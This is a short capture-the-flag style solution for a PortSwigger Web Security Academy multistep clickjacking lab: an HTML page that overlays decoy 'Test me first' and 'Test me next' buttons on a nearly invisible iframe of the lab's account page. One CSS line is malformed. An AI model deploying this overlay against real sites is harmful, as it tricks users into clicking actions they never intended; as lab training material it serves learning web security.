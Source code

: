 TODO: try to submit later

https://portswigger.net/web-security/learning-paths/clickjacking/clickjacking-multistep-clickjacking/clickjacking/lab-multistep#

<style>
	iframe {
		position:relative;
		width:width: 1000px;
		height: 666px;
		opacity: 0.00001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:512px;
		left:45px;
		z-index: 1;
	}
   .secondClick {
		top:311px;
		left:206px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0a41008803eacb21da66bf32004c0092.web-security-academy.net/my-account"></iframe>

